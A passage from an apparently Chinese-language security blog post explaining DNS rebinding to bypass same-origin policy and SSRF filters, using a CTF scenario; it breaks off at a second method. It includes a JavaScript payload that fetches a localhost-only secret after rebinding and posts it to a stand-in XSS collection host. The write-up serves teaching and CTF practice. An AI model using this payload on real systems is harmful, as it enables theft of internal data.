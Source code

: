 ```yaml
---
title: DNS重绑定与SSRF绕过
date: 2022-01-12 19:17:47
tags:
---
```


## 0x01 DNS重绑定(DNS Rebinding)

通常我们通过域名访问应用的流程是：浏览器向DNS服务器发送请求，DNS服务器将请求的域名转换为ip地址，然后向对应的IP地址请求资源，最后回显给用户。

在访问DNS后请求方会缓存域名和IP的对应关系，而缓存时间就是由DNS服务器设置的TTL值决定。

当用户第一次访问，解析域名获取一个IP地址；然后，域名持有者修改通过某种方式对应的IP地址；用户再次请求该域名，就会获取一个新的IP地址，对于浏览器来说前后2次访问是同一域名，所以认为是安全的，这就可导致绕过同源策略和SSRF限制。下面介绍3种常见的DNS从绑定方法。

### 1.1 TTL=0的A记录

国内的域名厂商基本都不可以设置TTL为0，某些国外的域名才可以设置TTL=0，这方法只适用于前后两次请求存在一定有时间间隔或时间可控的情况。

举个CTF例子，你能向服务器提交一个URL,并且服务器会访问你提交的url。然后flag藏在服务器的本身的`http://127.0.0.1/secret`上。只能本地访问。

但是这里你提交你能控制的页面`www.x.com/index.php`，但是由于同源策略的原因你没办法去获取服务器上的`http://127.0.0.1/secret`。 但是通过`dns rebinding`就可以了。 比如你的页面如下：

```html
<script src=http://*********/static/jquery.min.js ></script>
<script>

setTimeout("POST()",90000)

function POST(){
    alert();
    $.ajax({
    url:"http://www.x.com/secret",
    type:"GET",
    success: function(data){
        $.post("http://xss平台",{'a':data})}
        }
    );
}

</script>
```

整个过程如下：

1. 你提交的是`www.x.com/index.php`，内容如上述代码
2. 设置你的域名的TTL=0，提交之后服务器会请求dns的域名与ip的关系然后找到你的这个页面，然后开始执行js。
3. 执行的时候先延迟90s，利用这延迟的90s，去修改你域名的A记录绑定到127.0.0.1上
4. 然后js延迟结束之后之后又会请求`http://www.x.com/secret`，由于你之前设置的TTL=0，所以又会重新向dns服务器请求一次ip。得到ip=127.0.0.1，而整个过程访问的都是同一域名，所以浏览器认为是安全的。就会成功去访问`http://127.0.0.1/secret`，从而绕过同源策略

### 1.2 两条A记录
